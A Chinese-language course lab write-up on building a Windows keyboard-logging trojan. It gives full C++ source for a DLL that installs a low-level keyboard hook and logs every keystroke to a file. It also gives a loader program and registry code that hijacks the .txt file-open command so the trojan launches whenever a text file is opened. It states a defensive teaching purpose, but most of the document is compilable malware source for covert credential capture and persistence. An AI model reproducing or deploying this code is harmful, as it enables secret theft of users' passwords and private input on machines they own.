




# 键盘木马及其自启

实验说明：键盘记录是木马常见的一种功能，主要用于窃取用户的账号、密码等机密信息，危害程度较高。熟悉键盘记录功能的实现原理，才能更好地进行防范。

实验目的：本实验通过 Windows 提供的消息钩子，实现一项具有键盘记录功能的木马，并结合实验 3 中劫持文件打开方式，实现木马的自启动功能，以此考查对实验内容的掌握情况。

实验内容：（1）实现键盘记录功能； （2）安装键盘记录木马； （3）木马自启动

参与作者：[lanpesk](https://lanpesk.github.io/)、[对酒当歌](https://blog.csdn.net/youyouwoxi)

# 实验步骤

## 实现键盘记录功能

（1）打开 VS，创建空的 DLL 项目，命名为 HookDll，然后向项目中添加源程序 hookdll.cpp。 

（2）完成消息钩子，以及安装、卸载钩子的代码，，修改第35 行代码，使得记录的按键值能够区分大小写字母和 shift、alt、ctrl 功能键。

Dll穷举法，使用switch case一个一个的破解出来

```cpp
void saveKeyToFile(int pressedKey)
{
	switch (pressedKey)
	{

	case 113:
		print("%s", "[F2]");
		break;
	case VK_CAPITAL:
		print("%s", "[CAPSLOCK]");
		break;
	case VK_LMENU:
		print("%s", "[LALT]");
		break;
	case VK_MULTIPLY:
		print("%s", "*");
		break;
……
	case 188:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "<");
		else
			print("%s", ",");
		break;
……
	case 88:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
		{
			if (GetAsyncKeyState(VK_RMENU))
				print("%s", "");
			else
				print("%s", "X");
		}
		else if (GetAsyncKeyState(VK_RMENU))
			print("%s", "Ÿ");
		else
			print("%s", "x");
		break;
……
		break;
	case VK_NUMPAD0:
		print("%s", "0");
		break;
……
	case 50:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "@");
		else
			print("%s", "2");
		break;
	case 51:
……
```

但这种方式太长了，查阅键盘键码值对照表得知

| **数字键** | **键码值** | **数字键** | **键码值** | **数字键**   | **键码值** |
| ---------- | ---------- | ---------- | ---------- | ------------ | ---------- |
| 1          | 49         | F1         | 112        | Numbpad 0    | 96         |
| 2          | 50         | F2         | 113        | Numbpad1     | 97         |
| 3          | 51         | F3         | 114        | Numbpad2     | 98         |
| 4          | 52         | F4         | 115        | Numbpad3     | 99         |
| 5          | 53         | F5         | 116        | Numbpad4     | 100        |
| 6          | 54         | F6         | 117        | Numbpad5     | 101        |
| 7          | 55         | F7         | 118        | Numbpad6     | 102        |
| 8          | 56         | F8         | 119        | Numbpad7     | 103        |
| 9          | 57         | F9         | 120        | Numbpad8     | 104        |
|            |            | F10        | 121        | Numbpad9     | 105        |
|            |            | F11        | 122        | Multiply (*) | 106        |
|            |            | F12        | 123        | Add (+)      | 107        |
|            |            |            |            | Enter        | 108        |
|            |            |            |            | Subtract (-) | 109        |
|            |            |            |            | Decimal (.)  | 110        |
|            |            |            |            | Divide (/)   | 111        |


| 字母 | 键码值 | 字母 | 键码值 | 其它键    | 键码值 | 其它键      | 键码值 |
| ---- | ------ | ---- | ------ | --------- | ------ | ----------- | ------ |
| A    | 65     | N    | 78     | Backspace | 8      | Left Arrow  | 37     |
| B    | 66     | O    | 79     | Tab       | 9      | Up Arrow    | 38     |
| C    | 67     | P    | 80     | Clear     | 12     | Right Arrow | 39     |
| D    | 68     | Q    | 81     | Enter     | 13     | Down Arrow  | 40     |
| E    | 69     | R    | 82     | Shift     | 16     | Insert      | 45     |
| F    | 70     | S    | 83     | Control   | 17     | Delete      | 46     |
| G    | 71     | T    | 84     | Alt       | 18     | Help        | 47     |
| H    | 72     | U    | 85     | Caps Lock | 20     | Num Lock    | 144    |
| I    | 73     | V    | 86     | Esc       | 27     | ; :         | 186    |
| J    | 74     | W    | 87     | Spacebar  | 32     | = +         | 187    |
| K    | 75     | X    | 88     | Page Up   | 33     | - _         | 189    |
| L    | 76     | Y    | 89     | Page Down | 34     | / ?         | 191    |
| M    | 77     | Z    | 90     | End       | 35     | \Q ~        | 192    |
|      |        |      |        | Home      | 36     | [ {         | 219    |
|      |        |      |        |           |        | \ \|        | 220    |
|      |        |      |        |           |        | ] }         | 221    |
|      |        |      |        |           |        | '' '        | 222    |

我们完全可以把字母部分的单独处理，通过检测<kbd>cap</kbd>和<kbd>Shift</kbd>两个按键的状态，判断到底要不要大写。

此部分为较全的键盘录入，为此特意构建了函数

```cpp
#include <windows.h>
#include <stdio.h>

HINSTANCE g_hInst = NULL;
HHOOK g_hHook = NULL;

void print(const char* format, ...)
{
	char* buffer = new char[2048];
	if (buffer == NULL)
		return;

	va_list vl;
	va_start(vl, format);
	vsprintf(buffer, format, vl);
	va_end(vl);

	HANDLE hFile = CreateFile("log.txt", GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE)
		return;

	DWORD dwWrite = lstrlen(buffer);
	SetFilePointer(hFile, 0, 0, FILE_END);
	WriteFile(hFile, buffer, dwWrite, &dwWrite, NULL);
	CloseHandle(hFile);

	delete[]buffer;
}

void saveKeyToFile(int pressedKey)
{
	switch (pressedKey) {
	case 8:
		print("%s", "[R]");
		break;
	case 10: // 10 y 13 son para enter (?)
		print("%s", "\r\n");
		break;
	case 13:
		print("%s", "\r\n");
		break;
	case 32:
		print("%s", " ");
		break;
	case 42:
		print("%s", "*");
		break;
	case 43:
		print("%s", "+");
		break;
	case 45:
		print("%s", "-");
		break;
	case 47:
		print("%s", "/");
		break;
	case 48:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", ")");
		else
			print("%s", "0");
		break;
	case 49:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "!");
		else
			print("%s", "1");
		break;
	case 50:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "@");
		else
			print("%s", "2");
		break;
	case 51:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "#");
		else
			print("%s", "3");
		break;
	case 52:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "$");
		else 
			print("%s", "4");
		break;
	case 53:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "%");
		else 
			print("%s", "5");
		break;
	case 54:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "^");
		else 
			print("%s", "6");
		break;
	case 55:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "&");
		else
			print("%s", "7");
		break;
	case 56:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", "*");
		else
			print("%s", "8");
		break;
	case 57:
		if (GetAsyncKeyState(VK_SHIFT))
			print("%s", ")");
		else
			print("%s", "9");
		break;
	case 96: // Keypad
		print("%s", "0");
		break;
	case 97:
		print("%s", "1");
		break;
	case 98:
		print("%s", "2");
		break;
	case 99:
		print("%s", "3");
		break;
	case 100:
		print("%s", "4");
		break;
	case 101:
		print("%s", "5");
	case 102:
		print("%s", "6");
		break;
	case 103:
		print("%s", "7");
		break;
	case 104:
		print("%s", "8");
		break;
	case 105:
		print("%s", "9");
		break;
	case VK_MULTIPLY:
		print("%s", "*");
		break;
	case VK_ADD:
		print("%s", "+");
		break;
	case VK_SUBTRACT:
		print("%s", "-");
		break;
	case VK_DECIMAL:
		print("%s", ",");
		break;
	case VK_DIVIDE:
		print("%s", "/");
		break;
	case 188:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "<");
		else
			print("%s", ",");
		break;
	case 192:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "~~");
		else
			print("%s", "`");
		break;
	case 222:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "\"");
		else
			print("%s", "'");
		break;
	case 220:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "|");
		else
			print("%s", "\\");
		break;
	case 219:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "{");
		else
			print("%s", "[");
		break;
	case 221:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "}");
		else
			print("%s", "]");
		break;
	case 186:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", ":");
		else
			print("%s", ";");
		break;
	case 191:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "?");
		else
			print("%s", "/");
		break;
	case 190:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", ">");
		else
			print("%s", ".");
		break;
	case 187:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "+");
		else
			print("%s", "=");
		break;
	case 189:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "_");
		else
			print("%s", "-");
		break;
	case VK_CAPITAL:
		print("%s", "[CAPSLOCK]");
		break;
	case VK_TAB:
		print("%s", "[TAB]");
		if (GetAsyncKeyState(VK_RMENU))
			print("%s", "[ALTTAB]");
		break;
	case VK_LSHIFT:
		print("%s", "[LSHIFT]");
		break;
	case VK_RSHIFT:
		print("%s", "[RSHIFT]");
		break;
	default:
		print("%s", "");
		break;
	case VK_CONTROL:
		print("%s", "[CTRL]");
		break;
	case VK_ESCAPE:
		print("%s", "[ESC]");
		break;
	case VK_DOWN:
		print("%s", "[DOWN]");
		break;
	case VK_UP:
		print("%s", "[UP]");
		break;
	case VK_LEFT:
		print("%s", "[LEFT]");
		break;
	case VK_RIGHT:
		print("%s", "[RIGHT]");
		break; //da conflicto
	case VK_LBUTTON:
		print("%s", "[LCLICK]");
		break;
	case VK_RBUTTON:
		print("%s", "[RCLICK]");
		break;
	}
	if (pressedKey > 96 && pressedKey < 105) {
		print("%c", pressedKey - 48);
	}
	else if (pressedKey != VK_LBUTTON || pressedKey != VK_RBUTTON) {
		if (pressedKey > 64 && pressedKey < 91) {
			if (GetKeyState(VK_CAPITAL)){
				if (!GetAsyncKeyState(VK_SHIFT)) {
					print("%c", pressedKey);
				}
				else {
					print("%c", pressedKey + 32);
				}
			}
			else{
				if ( GetAsyncKeyState(VK_SHIFT)) {
					print("%c", pressedKey);
				}
				else {
					print("%c", pressedKey + 32);
				}
			}
		}
	}

}

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode == HC_ACTION && wParam == WM_KEYUP)
	{
		KBDLLHOOKSTRUCT* key = (KBDLLHOOKSTRUCT*)lParam;
		saveKeyToFile(key->vkCode);
	}


	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

BOOL WINAPI InstallHook()
{
	g_hHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, g_hInst, 0);
	return g_hHook == NULL;
}

BOOL WINAPI UnInstallHook()
{
	return UnhookWindowsHookEx(g_hHook);
}

BOOL WINAPI DllMain(IN HINSTANCE hDllHandle, IN DWORD nReason, IN LPVOID Reserved)
{
	switch (nReason)
	{
	case DLL_PROCESS_ATTACH:
		g_hInst = hDllHandle;
		break;
	}
	return TRUE;
}
```

但事实上我们很少用得到那么多，仅录入数字字母即可，可缩减代码如下

```cpp


LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode == HC_ACTION && wParam == WM_KEYUP) {
		KBDLLHOOKSTRUCT* key = (KBDLLHOOKSTRUCT*)lParam;
		if (key->vkCode >= 'A' and key->vkCode <= 'Z')
		{
			//GetKeyState()返回值为负数则表示按键按下，为1表示指示灯亮起，为0表示指示灯灭
			if (GetKeyState(VK_CAPITAL) == 1)
			{
				if (GetKeyState(VK_SHIFT) < 0)
					print("%c", key->vkCode + 32);// caps亮且按下shift则小写
				else
					print("%c", key->vkCode);     // caps亮则大写
			}
			else {
				if (GetKeyState(VK_SHIFT) < 0)// 按下shift则大写
					print("%c", key->vkCode);
				else
					print("%c", key->vkCode + 32);// 不按shift则小写
			}
		}
		else if (key->vkCode == 160)
			print("Shift");
		else if (key->vkCode == 164)
			print("Alt");
		else if (key->vkCode == 162)
			print("Ctrl");
		else if (key->vkCode >= '0' && key->vkCode <= '9')
			switch (key->vkCode)
			{
			case '0':GetKeyState(VK_SHIFT) < 0 ? print(")") : print("0"); break;
			case '1':GetKeyState(VK_SHIFT) < 0 ? print("!") : print("1"); break;
			case '2':GetKeyState(VK_SHIFT) < 0 ? print("@") : print("2"); break;
			case '3':GetKeyState(VK_SHIFT) < 0 ? print("#") : print("3"); break;
			case '4':GetKeyState(VK_SHIFT) < 0 ? print("$") : print("4"); break;
			case '5':GetKeyState(VK_SHIFT) < 0 ? print("%") : print("5"); break;
			case '6':GetKeyState(VK_SHIFT) < 0 ? print("^") : print("6"); break;
			case '7':GetKeyState(VK_SHIFT) < 0 ? print("&") : print("7"); break;
			case '8':GetKeyState(VK_SHIFT) < 0 ? print("*") : print("8"); break;
			case '9':GetKeyState(VK_SHIFT) < 0 ? print("(") : print("9"); break;
			}
	}
	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

（3）在该项目中添加模块定义文件（名称自定），如图 6-2 所示，然后添加如下内容，以导出函数名。

```
LIBRARY "HookDll"
EXPORTS
InstallHook
UnInstallHook
```

（4）生成解决方案，编译生成目标 DLL。

## 安装键盘记录木马

（1）新建空的桌面应用程序(.exe)项目，命名为 HookMain，然后向项目中添加源程序 hookmain.cpp，如图 6-3 所示。 

```cpp
#include <windows.h>
#include <stdio.h>
typedef BOOL(*WINAPI pfnHookProc)();

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	HANDLE hEvent = CreateEvent(NULL, FALSE, TRUE, TEXT("singleton"));
	if (GetLastError() == ERROR_ALREADY_EXISTS)
		return 0;
    
	HMODULE hModule = LoadLibrary(TEXT("HookDll.dll"));
	if (hModule == NULL)
		return 0;
    
	pfnHookProc pfnInstall = (pfnHookProc)GetProcAddress(hModule, "InstallHook");
	pfnHookProc pfnUnInstall = (pfnHookProc)GetProcAddress(hModule, "UnInstallHook");
    
	pfnInstall();
	do  // line 19
	{
		int nRet = MessageBox(NULL, TEXT("退出?"), TEXT("Tips"), MB_YESNO);
		if (nRet == IDYES)
			pfnUnInstall();
		break;
	} while (TRUE);  // line 25
    
	FreeLibrary(hModule);
	CloseHandle(hEvent);
	return 0;
}
```

（2）修改 19~27 行代码，结合木马功能需求，在不弹出对话框的情况下，实现程序退出时卸载键盘钩子。

（3）生成解决方案，编译生成目标 EXE。

## 木马自启动

在图 6-3 第 7 行之前，添加实验 3 中修改注册表的代码，劫持 txt 或者doc/docx 文件打开方式，实现木马自启动。

```cpp
#include <windows.h>
#include <stdio.h>
typedef BOOL(*WINAPI pfnHookProc)();

int ModifyRegKey()
{
	HKEY hKey = NULL;
	RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("txtfile\\shell\\Open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS;
	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS) {
		nRet = 1;
		MessageBox(NULL, strPath, TEXT("notice"), MB_OK);
	}
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
	HANDLE hEvent = CreateEvent(NULL, FALSE, TRUE, TEXT("singleton"));
	if (GetLastError() == ERROR_ALREADY_EXISTS)
		return 0;
	HMODULE hModule = LoadLibrary(TEXT("HookDll.dll"));
	if (hModule == NULL)
		return 0;
	pfnHookProc pfnInstall = (pfnHookProc)GetProcAddress(hModule, "InstallHook");
	pfnHookProc pfnUnInstall = (pfnHookProc)GetProcAddress(hModule, "UnInstallHook");
	pfnInstall();

	int ret = ModifyRegKey();

	TCHAR strDir[260] = { 0 };
	TCHAR strPath[260] = { 0 };

	GetSystemDirectory(strDir, 260);
	wsprintf(strPath, TEXT("%s\\notepad.exe"), strDir);
	GetCurrentDirectory(260, strDir);
	MessageBox(NULL, strDir, TEXT("notice"), MB_OK);
	HWND hDesk = GetDesktopWindow();
	ShellExecute(hDesk, TEXT("open"), strPath, lpCmdLine, strDir, SW_SHOWNORMAL);

	do
	{
		int nRet = MessageBox(NULL, TEXT("退出?"), TEXT("Tips"), MB_YESNO);
		if (nRet == IDYES)
			pfnUnInstall();
		break;
	} while (TRUE);
	FreeLibrary(hModule);
	CloseHandle(hEvent);
	return 0;
}
```


## 观察结果、记录

我们直接运行Hookmain






打开任意关联的文件，然后打开记事本程序，输入数字、大小写字符，以及 shift 等功能键，观察记录结果。 






输入一段功能齐全的字符，发现完全能够记录下键盘输入的内容。而且在打开log文件时，由于是txt文件，也被劫持了。

# 思考与总结

（1）图 6-3 第 7~9 行代码的作用是什么？

```cpp
	HANDLE hEvent = CreateEvent(NULL, FALSE, TRUE, TEXT("singleton"));
	if (GetLastError() == ERROR_ALREADY_EXISTS)
		return 0;
```

CreateEvent是创建windows事件对象，作用主要用在判断线程退出和锁定方面.

```cpp
HANDLE CreateEvent( 
  LPSECURITY_ATTRIBUTES lpEventAttributes, // SD lpEventAttributes的结构中的成员为新的事件指定了一个安全符。lpEventAttributes是NULL，事件将获得一个默认的安全符。
  BOOLbManualReset, // reset type 指定将事件对象创建成手动复原还是自动复原。 如果设置为FALSE，当事件被一个等待线程释放以后，系统将会自动将事件状态复原为无信号状态。
  BOOLbInitialState, // initial state  指定事件对象的初始状态。如果为TRUE，初始状态为有信号状态；否则为无信号状态。
  LPCTSTRlpName // object name 指定事件的对象的名称。 如果lpName指定的名字，与一个存在的命名的事件对象的名称相同，函数将请求EVENT_ALL_ACCESS来访问存在的对象
);
```

第7行代码的作用便是创建一个名为`singleton`，有默认安全符，能够自动复原，初始状态有信号状态的Windows事件对象

`GetLastError()`的作用就是取得上一个函数操作时所产生的错误代码。显然这是用于处理异常的，如果名为`singleton`的事件对象已经存在，那么就提前结束。